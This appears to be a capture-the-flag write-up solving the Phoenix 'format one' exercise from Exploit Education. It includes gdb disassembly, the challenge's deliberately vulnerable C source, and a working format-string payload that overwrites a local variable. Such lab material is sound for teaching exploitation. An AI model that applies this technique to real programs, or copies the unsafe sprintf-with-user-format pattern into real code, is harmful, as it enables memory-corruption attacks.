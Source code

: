 ```yaml
---
title: "phoenix - format 1"
classes: wide
tag: 
  - "format string"
header:
  teaser: /assets/images/binary-exploitation/binexp.png
ribbon: red
description: "Solution for format one from Phoenix in Exploit Education Series"
categories:
  - Binary Exploitation
---
```


Lets list the files using ```ls -la```,

```c
user@phoenix-amd64:~$ ls -la
total 28
drwxr-xr-x 2 user user 4096 Jun 11 07:20 .
drwxr-xr-x 3 root root 4096 Jan 13  2019 ..
-rw-r--r-- 1 user user  220 Jan 13  2019 .bash_logout
-rw-r--r-- 1 user user 3526 Jan 13  2019 .bashrc
-rw-r--r-- 1 user user  675 Jan 13  2019 .profile
-rwxr-xr-x 1 user user 6472 Jun 11 07:20 format-one
```

Lets check the file type of the binary using ```file``` command,

```c
user@phoenix-amd64:~$ file format-one
format-one: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /opt/phoenix/x86_64-linux-musl/lib/ld-musl-x86_64.so.1, not stripped
```

So this binary is a ```not stripped``` binary

Lets try running it,

```c
user@phoenix-amd64:~$ ./format-one
Welcome to phoenix/format-one, brought to you by https://exploit.education
monish
Uh oh, 'changeme' is not the magic value, it is 0x00000000
```

It seems like we have to store some address in ```changeme```

Disassembling ```main()```,

```c
(gdb) disas main
Dump of assembler code for function main:
   0x00000000004006ed <+0>:	push   rbp
   0x00000000004006ee <+1>:	mov    rbp,rsp
   0x00000000004006f1 <+4>:	sub    rsp,0x50
   0x00000000004006f5 <+8>:	mov    DWORD PTR [rbp-0x44],edi
   0x00000000004006f8 <+11>:	mov    QWORD PTR [rbp-0x50],rsi
   0x00000000004006fc <+15>:	mov    edi,0x4007e0
   0x0000000000400701 <+20>:	call   0x400530 <puts@plt>
   0x0000000000400706 <+25>:	mov    rdx,QWORD PTR [rip+0x200433]        # 0x600b40 <stdin>
   0x000000000040070d <+32>:	lea    rax,[rbp-0x40]
   0x0000000000400711 <+36>:	mov    esi,0xf
   0x0000000000400716 <+41>:	mov    rdi,rax
   0x0000000000400719 <+44>:	call   0x400520 <fgets@plt>
   0x000000000040071e <+49>:	test   rax,rax
   0x0000000000400721 <+52>:	jne    0x400737 <main+74>
   0x0000000000400723 <+54>:	mov    esi,0x40082b
   0x0000000000400728 <+59>:	mov    edi,0x1
   0x000000000040072d <+64>:	mov    eax,0x0
   0x0000000000400732 <+69>:	call   0x400540 <errx@plt>
   0x0000000000400737 <+74>:	mov    BYTE PTR [rbp-0x31],0x0
   0x000000000040073b <+78>:	mov    DWORD PTR [rbp-0x10],0x0
   0x0000000000400742 <+85>:	lea    rdx,[rbp-0x40]
   0x0000000000400746 <+89>:	lea    rax,[rbp-0x30]
   0x000000000040074a <+93>:	mov    rsi,rdx
   0x000000000040074d <+96>:	mov    rdi,rax
   0x0000000000400750 <+99>:	mov    eax,0x0
   0x0000000000400755 <+104>:	call   0x400550 <sprintf@plt>
   0x000000000040075a <+109>:	mov    eax,DWORD PTR [rbp-0x10]
   0x000000000040075d <+112>:	cmp    eax,0x45764f6c
   0x0000000000400762 <+117>:	je     0x40077a <main+141>
   0x0000000000400764 <+119>:	mov    eax,DWORD PTR [rbp-0x10]
   0x0000000000400767 <+122>:	mov    esi,eax
   0x0000000000400769 <+124>:	mov    edi,0x400840
   0x000000000040076e <+129>:	mov    eax,0x0
   0x0000000000400773 <+134>:	call   0x400510 <printf@plt>
   0x0000000000400778 <+139>:	jmp    0x400784 <main+151>
   0x000000000040077a <+141>:	mov    edi,0x400878
   0x000000000040077f <+146>:	call   0x400530 <puts@plt>
   0x0000000000400784 <+151>:	mov    edi,0x0
   0x0000000000400789 <+156>:	call   0x400560 <exit@plt>
End of assembler dump.
```

The compare instruction in this function is,

```c
   0x000000000040075d <+112>:	cmp    eax,0x45764f6c
```

So the ```changeme``` value is being compared with ```0x45764f6c```

```changeme``` is stored at ```$rbp-0x10```

Lets view the source code for proper understanding,

```c
#include <err.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

#define BANNER \
  "Welcome to " LEVELNAME ", brought to you by https://exploit.education"

int main(int argc, char **argv) {
  struct {
    char dest[32];
    volatile int changeme;
  } locals;
  char buffer[16];

  printf("%s\n", BANNER);

  if (fgets(buffer, sizeof(buffer) - 1, stdin) == NULL) {
    errx(1, "Unable to get buffer");
  }
  buffer[15] = 0;

  locals.changeme = 0;

  sprintf(locals.dest, buffer);

  if (locals.changeme != 0x45764f6c) {
    printf("Uh oh, 'changeme' is not the magic value, it is 0x%08x\n",
        locals.changeme);
  } else {
    puts("Well done, the 'changeme' variable has been changed correctly!");
  }

  exit(0);
}
```

This challenge is same like before, but the key of the program lies in the below condition

```c
if (locals.changeme != 0x45764f6c) {
    printf("Uh oh, 'changeme' is not the magic value, it is 0x%08x\n",
        locals.changeme);
  } else {
    puts("Well done, the 'changeme' variable has been changed correctly!");
  }
```

We have to pass 32 bytes in ```dest``` to reach ```changeme```

Data for ```dest``` comes for ```buffer``` which is 16 bytes

So lets use format string vulnerability here,

To control the buffer space better, lets use ```%x``` (hex)

If we pass ```%32x``` it pops 32 hex values from stack

Similarly,

```c
(gdb)  b *0x000000000040075a
Breakpoint 1 at 0x40075a

(gdb) r
Starting program: /home/user/format-one
Welcome to phoenix/format-one, brought to you by https://exploit.education
%32xABCD

Breakpoint 1, 0x000000000040075a in main ()

(gdb) x/s $rbp-0x10
0x7fffffffe660:	"ABCD\n"

(gdb)
```

So we have successfully overflowed the ```changeme``` with our input

Lets try exploiting this binary,

```c
user@phoenix-amd64:~$ python -c "print '%32x'+'\x6c\x4f\x76\x45'"
%32xlOvE
user@phoenix-amd64:~$ python -c "print '%32x'+'\x6c\x4f\x76\x45'" | ./format-one
Welcome to phoenix/format-one, brought to you by https://exploit.education
Well done, the 'changeme' variable has been changed correctly!
```

Done! We have completed "format-one"